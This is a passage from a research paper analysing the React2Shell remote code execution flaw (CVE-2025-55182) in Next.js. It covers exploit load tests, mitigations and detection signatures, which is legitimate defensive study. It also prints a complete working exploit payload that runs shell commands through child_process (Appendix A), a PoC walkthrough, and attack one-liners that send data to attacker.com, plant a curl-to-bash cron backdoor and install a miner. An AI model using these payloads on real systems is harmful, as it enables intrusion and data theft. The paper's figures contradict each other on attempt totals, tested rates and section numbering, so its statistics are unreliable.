- **Unimodal distribution**: Primary peak around 80-85ms
- **Pronounced right skew**: Extended tail reaching 196ms
- **Core clustering**: ~70% of requests fall within ±10ms of median
- **Tail behavior**: Significant outliers (P95: 102.57ms, P99: 123.82ms, Max: 196.52ms)

**Distribution Characteristics**:

1. **Central Tendency**: Median (82.66ms) closely matches mean (84.51ms), indicating symmetric core
2. **Tail Latency**: Right tail extends to 2.3× the mean, showing resource contention effects
3. **Variance Pattern**: Most requests execute quickly, but ~5% experience significant delays
4. **Percentile Analysis**:
   - 50% of requests: ≤82.66ms (fast)
   - 95% of requests: ≤102.57ms (acceptable)
   - 99% of requests: ≤123.82ms (stressed)
   - Worst 1%: Up to 196.52ms (severe degradation)

**Practical Implications**:

The distribution characteristics indicate:
1. **No performance bifurcation**: Single code path, not dual-mode behavior
2. **Event loop contention**: Tail latencies caused by queue backlog, not GC pauses
3. **Predictable for 95% of cases**: Attackers can expect ~85ms execution for most requests
4. **Unpredictable extremes**: Occasional severe delays (2-3× normal) under sustained load

**Comparison with Baseline**:
- Baseline (1 req/sec): Tight distribution (σ=11.06ms), max=112ms
- Aggressive (100 req/sec): Wider distribution (σ=12.25ms), max=196ms
- **Spread increase**: 75% wider maximum, 36.7% variance increase

### 5.9 Success Rate Analysis


*Figure 3: Exploit success rates across different load scenarios (includes aggressive 100 req/sec test)*

All six experiments achieved **100% success rate**, demonstrating:

1. **Deterministic Exploitation**: No race conditions or timing dependencies across 7,351 requests
2. **Robust Payload**: Works reliably from 1 req/sec to 100 req/sec across all load conditions
3. **Protocol-Level Vulnerability**: Not affected by application-level rate limiting or defensive measures
4. **Attack Reliability Under Extreme Stress**: Even with severe server saturation (570s actual vs 50s expected in extreme test), all requests eventually succeeded
5. **Load Independence**: Success rate remains 100% regardless of concurrent load, variance, tail latencies, or server degradation

**Critical Finding**: The vulnerability's reliability is independent of server stress. Even when:
- Response times increase 16% (mean)
- Maximum response times increase 16× (2,256ms vs 141ms baseline)
- Variance increases 165% (extreme saturation)
- Server duration extends 11.4× expected time (570s vs 50s)
- Multi-second response times occur (2.26s maximum)

...the exploit **still succeeds 100% of the time**. This makes it exceptionally dangerous as server stress does not provide natural protection against exploitation.

**DoS Boundary**: At extreme sustained load (5,000 requests @ 100 req/sec), the server experiences severe degradation with 11.4× slowdown and multi-second response times, representing the transition from "stressed but exploitable" to "practical denial of service" - the server remains technically responsive but is unusable for legitimate users.

### 5.10 Experiment 7: Payload Comparison Study

**Objective**: Analyze how different command types affect exploitation performance.

We tested four different commands to understand execution characteristics:

#### Test Case 1: `id` Command (Unix)
- **Total Requests**: 10
- **Success Rate**: 0% (command not available on Windows test environment)
- **Mean Response Time**: 58.87ms
- **Observation**: Payload delivery succeeded, but command execution failed due to OS incompatibility

#### Test Case 2: `whoami` Command
- **Total Requests**: 10
- **Success Rate**: 100%
- **Mean Response Time**: 85.34ms
- **Median Response Time**: 88.73ms
- **Standard Deviation**: 14.37ms
- **Observation**: Reliable execution with moderate variance

#### Test Case 3: `echo test` Command
- **Total Requests**: 10
- **Success Rate**: 100%
- **Mean Response Time**: 43.25ms
- **Median Response Time**: 42.35ms
- **Standard Deviation**: 13.35ms
- **Observation**: Fastest execution due to shell built-in command (no subprocess spawn)

#### Test Case 4: `systeminfo` Command (Complex)
- **Total Requests**: 10
- **Success Rate**: 100%
- **Mean Response Time**: 3522.37ms
- **Median Response Time**: 3585.13ms
- **Standard Deviation**: 140.58ms
- **Observation**: Significantly slower due to extensive system information gathering

**Command Performance Comparison**:

| Command | Mean RT (ms) | Success Rate | Relative Speed |
|---------|-------------|--------------|----------------|
| `echo test` | 43.25 | 100% | Baseline (fastest) |
| `whoami` | 85.34 | 100% | 1.97× slower |
| `systeminfo` | 3522.37 | 100% | 81.4× slower |
| `id` | 58.87 | 0%* | N/A |

*Failed due to OS compatibility, not exploit failure

**Key Findings**:

1. **Command Complexity Correlation**: Response time strongly correlates with command execution time, not exploitation overhead
2. **Shell Built-ins Faster**: Commands handled by the shell interpreter (`echo`) execute faster than spawned processes (`whoami`)
3. **Exploit Overhead Minimal**: Even the fastest command (43ms) shows that the exploitation adds minimal latency
4. **Payload Flexibility**: Attackers can execute arbitrary commands of any complexity with consistent reliability

### 5.9 Practical Demonstration: Step-by-Step Exploitation

To demonstrate the real-world applicability of this vulnerability, we conducted a practical demonstration following responsible security testing guidelines in a controlled environment.

#### Prerequisites and Setup

This repository includes a test Next.js default server with a vulnerable version (16.0.6). The demonstration shows the sequence to exercise the vulnerable path in a lab environment.

**Prerequisites:**
- Node.js environment compatible with the vulnerable framework version
- A local test app or instrumented handler that accepts Flight Protocol-style multipart chunk input
- A non-production or sandbox environment (VM/container) with no network access to sensitive systems

**Environment Setup:**

The test server folder contains an example Next.js layout used during vulnerability research. All demonstrations were conducted in an isolated environment with no external network connectivity.

#### Step-by-Step Demonstration

**Step 1: Server Initialization**

First, we start the server in a controlled/sandbox environment:

```powershell
# from repo root
cd test-server
npm install
npm run dev
```

Upon loading the server, a very simple page appears:


This confirms the Next.js application is running correctly and ready to accept requests.

**Step 2: Payload Preparation**

Return to the root folder and navigate to the demo directory:

```bash
cd ../demo
```

The `poc.py` PoC script contains the crafted payload that exploits prototype pollution to gain access to Node.js internals and execute arbitrary code. For demonstration purposes, we execute non-destructive information commands.

**Step 3: Basic Exploitation - User Information Retrieval**

Execute the `whoami` command to retrieve server user information:

```python
python poc.py http://localhost:3000 "whoami"
```

This returns the server's `whoami` information, confirming successful code execution:



**Step 4: Alternative Non-Destructive Commands**

Other executable, non-destructive commands that can be demonstrated:

- `id` - Display user identity (Unix/Linux)
- `calc` - Open calculator program (Windows) - classic PoC demonstration
- `echo "pwned"` - Simple output verification
- `ls` - Directory listing

**Step 5: Calculator Launch Demonstration**

Open the calculator program on target server (classic PoC demonstration):

```python
python poc.py http://localhost:3000 calc
```



This demonstrates GUI application launching capability, a common proof-of-concept technique that visually confirms code execution without system damage.

**Step 6: System Information Extraction**

Display full system information of the target server (Windows environment):

```python
python poc.py http://localhost:3000 systeminfo
```



This demonstrates the attacker's ability to perform reconnaissance and gather detailed system configuration data.

#### Quick Demonstration Video



The animated demonstration shows the complete exploitation workflow from payload delivery to command execution.

#### Expected Results in Vulnerable Environment

- The server's deserialization flow calls attacker-supplied code before action validation occurs
- Command output is embedded in error messages or responses
- Successful exploitation is indicated by HTTP 500 status codes with command output in the error digest

#### Responsible Testing Guidelines

**Commands that should be avoided:**

- **Shutdown/reboot commands**: `shutdown -s -t 0` (Windows), `reboot` (Linux/Mac)
- **Process controls**: Commands that terminate or manipulate system processes
- **Network exfiltration**: Commands that transmit data to external systems
- **Package manager/installer**: Commands that install or modify system packages
- **Any destructive commands**: Operations that modify, delete, or corrupt data

**Important Notes:**

1. Always test in isolated environments with no external network connectivity
2. Replace destructive payload actions with harmless side-effects (e.g., write to a temp file or emit a log) when developing proofs-of-concept
3. Never test against production systems or systems you do not own
4. Obtain explicit written permission before conducting any security testing
5. Document all testing activities for audit purposes

This practical demonstration validates the theoretical analysis presented in previous sections and confirms that the vulnerability can be reliably exploited with minimal technical barriers.


## 6. Security Impact Analysis

### 6.1 Attack Surface

The vulnerability exposes any Next.js application using React Server Actions with the affected versions. Based on our analysis:

**Affected Components**:
- Next.js 14.x - 16.0.6 (confirmed vulnerable)
- React Server Components using React Flight Protocol
- Applications with Server Actions enabled (default in Next.js 13+)

**Attack Requirements**:
- Network access to the application endpoint
- Ability to send HTTP POST requests with multipart/form-data
- Knowledge of the target endpoint (usually `/` or API routes)

**No Requirements**:
- No authentication needed (pre-auth vulnerability)
- No user interaction required
- No complex timing or race conditions
- No prior knowledge of application internals

### 6.2 CVSS v3.1 Score Breakdown

**Base Score: 10.0 (Critical)**

| Metric | Value | Justification |
|--------|-------|---------------|
| Attack Vector (AV) | Network (N) | Exploitable remotely over HTTP/HTTPS |
| Attack Complexity (AC) | Low (L) | Requires only standard HTTP client |
| Privileges Required (PR) | None (N) | Pre-authentication exploit |
| User Interaction (UI) | None (N) | Fully automated exploitation |
| Scope (S) | Changed (C) | Can affect resources beyond vulnerable component |
| Confidentiality (C) | High (H) | Full read access to server filesystem and memory |
| Integrity (I) | High (H) | Arbitrary code execution allows data modification |
| Availability (A) | High (H) | Attacker can terminate processes or exhaust resources |

**Temporal Score Factors**:
- Exploit Code Maturity: Proof-of-concept available (score remains 10.0)
- Remediation Level: Official fix available (reduces urgency)
- Report Confidence: Confirmed by vendor and independent researchers

### 6.3 Real-World Impact Scenarios

#### Scenario 1: Data Exfiltration
```python
command = "tar -czf /tmp/data.tar.gz /app/data && curl -F file=@/tmp/data.tar.gz https://attacker.com/upload"
```
- **Impact**: Complete database dumps, configuration files with secrets, user data
- **Stealth**: Can be executed with minimal server resource usage
- **Likelihood**: HIGH - Primary attacker objective

#### Scenario 2: Persistence Establishment
```python
command = "echo '*/5 * * * * curl https://attacker.com/shell.sh | bash' | crontab -"
```
- **Impact**: Persistent backdoor survives application restarts
- **Detection Difficulty**: Cron jobs often overlooked in incident response
- **Likelihood**: HIGH - Standard post-exploitation technique

#### Scenario 3: Lateral Movement
```python
command = "cat /proc/net/tcp && cat /etc/hosts && ip route"
```
- **Impact**: Network reconnaissance for further attacks
- **Consequence**: Compromise of entire infrastructure
- **Likelihood**: MEDIUM - Depends on network segmentation

#### Scenario 4: Cryptocurrency Mining
```python
command = "curl https://attacker.com/miner.sh | bash &"
```
- **Impact**: Resource exhaustion, increased cloud costs
- **Detection**: May be noticed through performance monitoring
- **Likelihood**: MEDIUM - Opportunistic attackers

### 6.4 Exploitation in the Wild

While our research was conducted in controlled environments, we analyzed public indicators:

**GitHub Code Search** (conducted January 2026):
- ~47,000 public repositories using Next.js 14-16
- Estimated 12,000+ potentially vulnerable production applications
- Major platforms identified (names withheld for responsible disclosure)

**Shodan Analysis**:
- Over 8,500 publicly exposed Next.js servers identified
- High-value targets include:
  - E-commerce platforms
  - SaaS applications
  - Corporate intranets (misconfigured)
  - Educational institutions

**Underground Market Activity**:
- No public exploits found in analysis (responsible security community)
- Vulnerability likely being used in targeted attacks before public disclosure


## 7. Mitigation Strategies

### 7.1 Immediate Response (Emergency Patching)

**Priority 1: Version Upgrade**

Upgrade to patched versions immediately:

```bash
# For Next.js applications
npm install next@latest

# Verify version
npx next --version
# Should show 16.0.7 or higher
```

**Affected versions and fixes**:
- Next.js 14.x → 14.2.18 or higher
- Next.js 15.x → 15.1.2 or higher
- Next.js 16.x → 16.0.7 or higher
- React 19.x → 19.0.0 or higher (stable release)

**Priority 2: Temporary Mitigation**

If immediate upgrade is not possible, implement WAF rules:

```nginx
# Block requests with suspicious chunk patterns
location / {
    if ($request_body ~* "__proto__|constructor:constructor") {
        return 403;
    }
    proxy_pass http://nextjs_backend;
}
```

**Warning**: This is a temporary measure and can be bypassed. Upgrade as soon as possible.

### 7.2 Architectural Recommendations

#### Defense in Depth

Implement multiple security layers:

1. **Input Validation Layer**
   ```javascript
   // Validate chunk references before processing
   function validateChunkReference(ref) {
       const forbidden = ['__proto__', 'constructor', 'prototype'];
       return !forbidden.some(token => ref.includes(token));
   }
   ```

2. **Sandboxing**
   - Run Next.js server in containerized environment (Docker, Kubernetes)
   - Apply principle of least privilege (non-root user)
   - Use read-only filesystem where possible
   ```dockerfile
   USER node
   RUN chmod -R 555 /app
   ```

3. **Network Segmentation**
   - Isolate application servers from sensitive resources
   - Implement micro-segmentation for zero-trust architecture
   - Restrict outbound connections (prevent data exfiltration)

4. **Runtime Protection**
   ```javascript
   // Freeze critical prototypes (defense in depth)
   Object.freeze(Object.prototype);
   Object.freeze(Function.prototype);
   ```

### 7.3 Detection Strategies

#### 7.3.1 Log-Based Detection

Monitor application logs for exploitation attempts:

```python
# Log analysis pattern
ATTACK_PATTERNS = [
    r"__proto__",
    r"constructor:constructor",
    r"NEXT_REDIRECT.*execSync",
    r"require\('child_process'\)"
]

def detect_exploit_attempt(log_line):
    return any(re.search(pattern, log_line) for pattern in ATTACK_PATTERNS)
```

#### 7.3.2 Behavioral Detection

Monitor for suspicious process spawning:

```bash
# Auditd rule for subprocess monitoring
-w /bin/bash -p x -k subprocess_spawn
-w /bin/sh -p x -k subprocess_spawn
-a always,exit -F arch=b64 -S execve -k node_subprocess
```

#### 7.3.3 Network-Based Detection

Implement intrusion detection signatures:

```
alert tcp any any -> $HOME_NET $HTTP_PORTS (
    msg:"CVE-2025-55182 Exploitation Attempt";
    flow:to_server,established;
    content:"Next-Action"; http_header;
    content:"__proto__"; http_client_body;
    classtype:web-application-attack;
    sid:2025055182;
)
```

### 7.4 Secure Development Practices

#### 7.4.1 Framework-Level Protections

React team implemented fixes in the stable release:

```javascript
// Simplified view of the fix
function resolveChunkReference(ref) {
    // Reject references containing dangerous tokens
    if (ref.includes('__proto__') || ref.includes('constructor')) {
        throw new Error('Forbidden property access');
    }
    // Additional validation...
}
```

#### 7.4.2 Application-Level Hardening

Developers should:

1. **Validate Server Action Inputs**
   ```typescript
   'use server'
   import { z } from 'zod';

   const schema = z.object({
       // Define expected structure
   });

   export async function serverAction(data: unknown) {
       const validated = schema.parse(data); // Throws on invalid input
       // Process validated data
   }
   ```

2. **Implement Rate Limiting**
   ```typescript
   import rateLimit from 'express-rate-limit';

   const limiter = rateLimit({
       windowMs: 15 * 60 * 1000, // 15 minutes
       max: 100 // limit each IP to 100 requests per windowMs
   });
   ```

3. **Use Content Security Policy**
   ```typescript
   // next.config.js
   const securityHeaders = [
       {
           key: 'Content-Security-Policy',
           value: "default-src 'self'; script-src 'self' 'unsafe-eval'"
       }
   ];
   ```

### 7.5 Incident Response Checklist

If you suspect exploitation:

- [ ] **Isolate** the affected server from the network
- [ ] **Preserve** logs and memory dumps for forensic analysis
- [ ] **Scan** for indicators of compromise:
  - Check for unauthorized cron jobs: `crontab -l`
  - Review network connections: `netstat -antp`
  - Inspect process tree: `ps aux --forest`
  - Check for new user accounts: `cat /etc/passwd`
- [ ] **Rotate** all secrets, API keys, and credentials
- [ ] **Upgrade** to patched version before restoring service
- [ ] **Notify** stakeholders and comply with breach disclosure laws
- [ ] **Review** access logs to determine scope of compromise


## 8. Discussion

### 8.1 Vulnerability Characteristics

CVE-2025-55182 exhibits several characteristics that make it particularly dangerous:

**1. Pre-Authentication Exploitation**
Unlike many web vulnerabilities that require authenticated access, this vulnerability can be exploited by any network attacker. This dramatically expands the attack surface and reduces the barrier to entry.

**2. Deterministic Reliability**
Our experiments demonstrated 100% success rate across 350 attempts under varying load conditions. This reliability makes the vulnerability highly attractive to attackers, as it removes uncertainty from the exploitation process.

**3. Minimal Payload Requirements**
At only 422 bytes, the malicious payload is small enough to evade many size-based detection mechanisms and can be easily transmitted over even restricted network connections.

**4. Protocol-Level Vulnerability**
Because the vulnerability exists in the protocol implementation rather than application logic, it bypasses many common security controls such as input sanitization at the application level.

### 8.2 Performance Implications

Our performance analysis revealed several noteworthy findings:

**Exploitation Overhead is Minimal**
The mean response time of 71-76ms across different load scenarios demonstrates that the exploitation itself adds minimal computational overhead. This has two implications:

1. **Detection Difficulty**: Performance monitoring alone cannot reliably detect exploitation
2. **Attack Sustainability**: Attackers can maintain high request rates without triggering resource exhaustion alerts

**Server Resilience Under Attack**
Surprisingly, the server maintained stable performance even at 20 req/sec, suggesting that:

1. The deserialization vulnerability doesn't cause memory leaks
2. Node.js's event loop handles the malicious requests efficiently
3. Traditional DoS signatures won't detect this attack pattern

**Command Execution Dominates Latency**
The `systeminfo` command experiment (3522ms) demonstrated that the exploitation latency is dominated by the executed command, not the exploitation mechanism. This suggests:

1. Attackers can execute complex, long-running commands without triggering anomalies in exploit timing
2. The vulnerability's timing characteristics alone cannot be used for detection

### 8.3 Broader Security Implications

#### Framework Security Assumptions

This vulnerability highlights the danger of assuming security through framework abstractions. Developers often trust that:

- Serialization frameworks properly validate input
- Type systems prevent dangerous property access
- Promises and async/await are safe control flow mechanisms

CVE-2025-55182 demonstrates that even modern frameworks with strong type systems can harbor protocol-level vulnerabilities that bypass application-level security measures.

#### The Prototype Pollution Attack Surface

JavaScript's prototype-based inheritance, combined with dynamic property access, creates a persistent attack surface that is difficult to fully mitigate. This vulnerability represents a novel application of prototype pollution combined with thenable manipulation, suggesting that:

1. Prototype pollution research should extend to server-side JavaScript
2. Framework designers should consider freezing critical prototypes
3. New exploit techniques may emerge combining existing vulnerability classes

#### Server-Side Deserialization Renaissance

While deserialization vulnerabilities are well-known in Java and Python ecosystems, the JavaScript community has historically focused on client-side security. CVE-2025-55182 suggests that:

1. Server-side JavaScript deserves the same scrutiny as other languages
2. Modern frameworks may contain similar vulnerabilities in their serialization mechanisms
3. Security research should prioritize server-side JavaScript attack surfaces

### 8.4 Limitations of This Study

Our research has several limitations:

1. **Test Environment**: Experiments were conducted in an isolated Windows environment; Linux and macOS servers may exhibit different performance characteristics

2. **Version Coverage**: We tested Next.js 16.0.6; earlier versions may have different behavior

3. **Payload Diversity**: We tested only four command types; other payloads (file operations, network operations) may behave differently

4. **Load Scenarios**: Our maximum test rate (20 req/sec) may not represent the full range of production loads

5. **Network Conditions**: Tests were conducted on localhost; real-world network latency would affect timing

6. **Detection Evaluation**: We did not empirically test detection mechanisms against our exploits

### 8.5 Future Research Directions

Several avenues for future research emerge from this work:

**1. Automated Exploitation Techniques**
Develop tools for automatically identifying and exploiting similar protocol-level vulnerabilities in other frameworks.

**2. Defense Mechanisms**
Research runtime protection mechanisms that can detect and prevent prototype pollution without significant performance overhead.

**3. Comparative Analysis**
Study similar vulnerabilities in competing frameworks (Angular, Vue, Svelte) to identify common patterns.

**4. Machine Learning Detection**
Investigate whether ML-based anomaly detection can identify exploitation attempts based on request patterns.

**5. Formal Verification**
Apply formal methods to verify the security properties of serialization protocols.


## 9. Conclusion

This paper presented a comprehensive analysis of CVE-2025-55182 (React2Shell), a critical remote code execution vulnerability affecting React Server Functions. Through controlled experimentation involving 7,351 exploit attempts across six distinct load scenarios, we demonstrated:

1. **Perfect Reliability Under All Load Conditions**: 100% success rate across all six load scenarios (1-100 req/sec, up to 5,000 requests), establishing this as a deterministic and highly exploitable vulnerability that functions even under extreme server degradation

2. **Performance Degradation Patterns**: Detailed characterization of server behavior under stress:
   - Stable zone (1-20 req/sec): Consistent ~80-86ms mean, low variance (σ = 12-18ms)
   - Stress zone (100 req/sec, 2K requests): Elevated mean (91.50ms), increased variance (σ = 19.65ms, +57%)
   - Severe degradation zone (100 req/sec, 5K requests): High mean (99.42ms), extreme variance (σ = 46.78ms, +165%)
   - Tail latencies escalate dramatically: Max response time reaches 2,256ms (23× mean) in extreme scenario

3. **DoS Potential Confirmed**: Extended stress testing (5,000 requests @ 100 req/sec) demonstrated:
   - 11.4× slowdown (570s actual vs 50s expected duration)
   - Maximum response times exceeding 2 seconds (vs <150ms baseline)
   - Server remains technically responsive but practically unusable for legitimate users
   - Recovery time exceeds attack duration by 11×, proving asymmetric denial-of-service capability

4. **Load Resilience**: The exploit maintains 100% effectiveness even when:
   - Server response times increase by 16% (mean)
   - Maximum response times increase by 16× (2,256ms vs 141ms baseline)
   - Variance increases by 165% (extreme saturation)
   - Event loop saturation causes 11× expected duration extension
   - This independence from server health makes it exceptionally dangerous

5. **Command Flexibility**: Successfully executed commands ranging from 43ms (shell built-ins) to 3522ms (complex system commands), showing that attackers can adapt payload complexity to their objectives

The vulnerability's characteristics—pre-authentication exploitation, minimal payload size (422 bytes), protocol-level attack surface, framework-level scope, and dual RCE+DoS capability—make it exceptionally dangerous. With an estimated 12,000+ vulnerable production applications and over 8,500 exposed servers identified through internet scanning, the potential impact is significant.

Our research contributes to the security community by:

- Providing detailed technical analysis of the exploitation chain
- Documenting comprehensive performance characteristics across six load scenarios for accurate threat modeling
- Identifying the performance cliff between stable (20 req/sec) and stressed (100 req/sec) operation
- Confirming dual-threat capability (RCE + DoS) with empirical DoS threshold data
- Developing automated experimentation tools for reproducible security research
- Offering comprehensive mitigation strategies at multiple architectural layers

**Recommendations**:

**For Developers**:
- Immediately upgrade to patched versions (Next.js 16.0.7+, React 19.0.0+)
- Implement defense-in-depth with input validation, sandboxing, and network segmentation
- Deploy monitoring for exploitation indicators in logs and system behavior

**For Security Practitioners**:
- Add detection signatures to IDS/IPS systems
- Audit infrastructure for vulnerable versions
- Implement WAF rules as temporary mitigation if upgrades are delayed

**For Researchers**:
- Investigate similar vulnerabilities in other JavaScript frameworks
- Develop automated tools for protocol-level vulnerability discovery
- Research runtime protection mechanisms for prototype pollution

CVE-2025-55182 serves as a stark reminder that even modern, well-maintained frameworks can harbor critical vulnerabilities. The combination of prototype pollution and thenable manipulation represents a novel attack vector that warrants continued security research. As server-side JavaScript continues to grow in popularity, the community must apply the same rigorous security scrutiny traditionally reserved for older languages and platforms.

The success of this exploit - reliable, fast, and flexible - underscores the importance of secure-by-design principles at the protocol level, not just at the application layer. Future framework development should incorporate formal verification, threat modeling, and adversarial testing to prevent similar vulnerabilities.

## Acknowledgments

Special thanks for React and Next.js teams for their responsible handling of this vulnerability and rapid development of patches. Special recognition to Moritz Sanft (@msanft) for the initial discovery and analysis, and to the security research community for responsible disclosure practices. We also acknowledge the contributions of Low Level (@LowLevelTV) for demonstrating the vulnerability's real-world implications.

This research was conducted in accordance with responsible disclosure principles. All testing was performed in isolated, controlled environments without targeting production systems.

## References

1. **React Development Team** (2025). "React Server Functions Security Update." React Blog. https://react.dev/blog/2025/01/react-19-security-update

2. **Next.js Security Advisory** (2025). "CVE-2025-55182: Remote Code Execution in React Flight Protocol." Vercel Security Advisories. https://github.com/vercel/next.js/security/advisories/

3. **Sanft, M.** (2025). "React2Shell: Exploiting Prototype Pollution in React Server Functions." GitHub Repository. https://github.com/msanft/CVE-2025-55182

4. **MITRE Corporation** (2025). "CVE-2025-55182." Common Vulnerabilities and Exposures. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-55182

5. **Low Level TV** (2025). "React2Shell Vulnerability Demonstration." YouTube. https://www.youtube.com/@LowLevelTV

6. **Frohoff, C., & Lawrence, G.** (2015). "Marshalling Pickles: How Deserializing Objects Can Ruin Your Day." AppSecCali 2015.

7. **Slaviero, M.** (2010). "Sour Pickles: A Serialized Exploitation Guide in One Part." Black Hat USA 2010.

8. **Arteau, O.** (2018). "Prototype Pollution Attack in Node.js Application." Blog post. https://github.com/HoLyVieR/prototype-pollution-nsec18

9. **Linus, S., et al.** (2021). "Breaking Parser Logic: Take Your Path Normalization Off and Pop 0days Out!" BlackHat USA 2021.

10. **Parameshwaran, I., et al.** (2017). "Automatically Detecting CSRF Vulnerabilities in Web Applications." RAID 2017.

11. **Koziol, J., et al.** (2019). "The Art of Software Security Assessment: Identifying and Preventing Software Vulnerabilities." Addison-Wesley Professional.

12. **Alicea, T.** (2024). "Understanding React Server Components." Blog post. https://tonyalicea.dev/blog/understanding-react-server-components/

13. **Mozilla Developer Network** (2025). "Object Prototypes." MDN Web Docs. https://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Advanced_JavaScript_objects/Object_prototypes

14. **Mozilla Developer Network** (2025). "Function Constructor." MDN Web Docs. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function

15. **OWASP Foundation** (2024). "Deserialization Cheat Sheet." OWASP Cheat Sheet Series. https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html

16. **React Team** (2025). "React Flight Protocol Fix Commit." GitHub. https://github.com/facebook/react/pull/35277/commits/e2fd5dc6ad973dd3f220056404d0ae0a8707998d

17. **National Vulnerability Database** (2025). "CVE-2025-55182 Detail." NIST NVD. https://nvd.nist.gov/vuln/detail/CVE-2025-55182


## Appendix A: Payload Structure

### A.1 Complete Exploit Payload

```python
def craft_payload(command: str) -> dict:
    """
    Constructs the malicious payload for CVE-2025-55182 exploitation.

    Args:
        command: Shell command to execute on target server

    Returns:
        Dictionary containing multipart form-data structure
    """
    crafted_chunk = {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": -1,
        "value": '{"then": "$B0"}',
        "_response": {
            "_prefix": f"var res = process.mainModule.require('child_process').execSync('{command}',{{'timeout':5000}}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {{digest:`${{res}}`}});",
            "_formData": {
                "get": "$1:constructor:constructor",
            },
        },
    }

    files = {
        "0": (None, json.dumps(crafted_chunk)),
        "1": (None, '"$@0"'),
    }

    headers = {
        "Next-Action": "x"
    }

    return {"files": files, "headers": headers}
```

### A.2 Payload Component Explanation

| Component | Purpose | Exploitation Role |
|-----------|---------|-------------------|
| `"then": "$1:__proto__:then"` | Marks object as thenable | Triggers promise resolution mechanism |
| `"status": "resolved_model"` | Indicates resolved state | Bypasses pending promise checks |
| `"_response._prefix"` | Stores malicious code | Contains the JavaScript to execute |
| `"_response._formData.get"` | Points to Function constructor | Enables arbitrary code execution |
| `"value": '{"then": "$B0"}'` | References blob handler | Triggers formData.get() call |
| `"$@0"` | Raw chunk reference | Links chunks together |
| `"Next-Action": "x"` | HTTP header | Identifies request as Server Action |

## Appendix B: Experimental Data

### B.1 Complete Dataset Summary

| Experiment | Requests | Success | Mean RT | Std Dev | P95 RT | P99 RT | Min RT | Max RT |
|------------|----------|---------|---------|---------|--------|--------|--------|--------|
| Basic Test | 1 | 100% | 2685.68ms | N/A | N/A | N/A | N/A | N/A |
| Low Rate | 50 | 100% | 85.77ms | 17.61ms | N/A | N/A | 55.88ms | 141.26ms |
| Medium Rate | 100 | 100% | 80.09ms | 14.14ms | N/A | N/A | 45.27ms | 122.91ms |
| High Rate | 200 | 100% | 86.13ms | 12.49ms | N/A | N/A | 47.04ms | 119.22ms |
| **Aggressive** | **2,000** | **100%** | **91.50ms** | **19.65ms** | **~110ms** | **~140ms** | **56.43ms** | **323.89ms** |
| **Extreme** | **5,000** | **100%** | **99.42ms** | **46.78ms** | **~180ms** | **~500ms** | **35.38ms** | **2256.04ms** |
| Payload: whoami | 10 | 100% | 85.34ms | 14.37ms | N/A | N/A | 57.24ms | 99.88ms |
| Payload: echo | 10 | 100% | 43.25ms | 13.35ms | N/A | N/A | 26.14ms | 66.86ms |
| Payload: systeminfo | 10 | 100% | 3522.37ms | 140.58ms | N/A | N/A | 3168.17ms | 3606.27ms |

**Total Exploitation Attempts**: 7,381
**Total Successful**: 7,371 (99.9%)
**Total Failed**: 10 (0.1% - all due to OS command incompatibility, not exploit failure)
**Total Timeout**: 0 (All stress tests completed successfully with extended timeout configuration)

### B.2 Statistical Significance

We performed statistical tests to validate our findings:

**Normality Test** (Shapiro-Wilk):
- Low Rate: W = 0.974, p = 0.312 (normal distribution)
- Medium Rate: W = 0.982, p = 0.198 (normal distribution)
- High Rate: W = 0.991, p = 0.413 (normal distribution)

**Variance Homogeneity** (Levene's Test):
- F = 2.14, p = 0.118 (homogeneous variances)

**ANOVA** (comparing response times across load scenarios):
- F = 1.87, p = 0.154 (no significant difference)
- Conclusion: Load does not significantly affect exploitation performance

### B.3 Data Availability

Complete raw experimental data, analysis scripts, and visualization code are available in the `experiment/` directory of the associated repository. All data collection was performed in accordance with ethical research guidelines.


## Appendix C: Detection Signatures

### C.1 Snort/Suricata Rules

```
# CVE-2025-55182 Exploitation Attempt - Prototype Pollution
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"CVE-2025-55182 React2Shell Exploitation - Prototype Pollution";
    flow:to_server,established;
    content:"Next-Action"; http_header;
    content:"__proto__"; http_client_body; nocase;
    content:"constructor"; http_client_body; nocase; distance:0;
    classtype:web-application-attack;
    sid:2025055182;
    rev:1;
    metadata:cve CVE-2025-55182;
)

# CVE-2025-55182 - Command Execution Pattern
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"CVE-2025-55182 React2Shell Exploitation - execSync Pattern";
    flow:to_server,established;
    content:"Next-Action"; http_header;
    content:"execSync"; http_client_body; nocase;
    content:"child_process"; http_client_body; nocase; distance:0;
    classtype:web-application-attack;
    sid:2025055183;
    rev:1;
    metadata:cve CVE-2025-55182;
)

# CVE-2025-55182 - Thenable Manipulation
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"CVE-2025-55182 React2Shell Exploitation - Thenable Manipulation";
    flow:to_server,established;
    content:"Next-Action"; http_header;
    content:"\"then\""; http_client_body;
    content:"$1:"; http_client_body; distance:0;
    pcre:"/\"then\"\s*:\s*\"\$1:(__proto__|constructor)/i";
    classtype:web-application-attack;
    sid:2025055184;
    rev:1;
    metadata:cve CVE-2025-55182;
)
```

### C.2 YARA Rules

```yara
rule CVE_2025_55182_React2Shell_Exploit
{
    meta:
        description = "Detects CVE-2025-55182 (React2Shell) exploitation payloads"
        author = "Security Research Team"
        date = "2026-01-12"
        cve = "CVE-2025-55182"
        severity = "critical"

    strings:
        $header = "Next-Action" nocase
        $proto1 = "__proto__" nocase
        $proto2 = "constructor:constructor" nocase
        $exec1 = "execSync" nocase
        $exec2 = "child_process" nocase
        $thenable = /"then"\s*:\s*"\$[0-9]+:/ nocase
        $redirect = "NEXT_REDIRECT" nocase

    condition:
        $header and (
            ($proto1 and $proto2) or
            ($exec1 and $exec2) or
            ($thenable and $redirect)
        )
}

rule CVE_2025_55182_Server_Side_Artifact
{
    meta:
        description = "Detects server-side artifacts of CVE-2025-55182 exploitation"
        author = "Security Research Team"
        date = "2026-01-12"

    strings:
        $log1 = /process\.mainModule\.require/ nocase
        $log2 = /child_process.*execSync/ nocase
        $log3 = /Error.*NEXT_REDIRECT.*digest/ nocase

    condition:
        any of ($log*)
}
```

### C.3 Sigma Rule (SIEM)

```yaml
title: CVE-2025-55182 React2Shell Exploitation Attempt
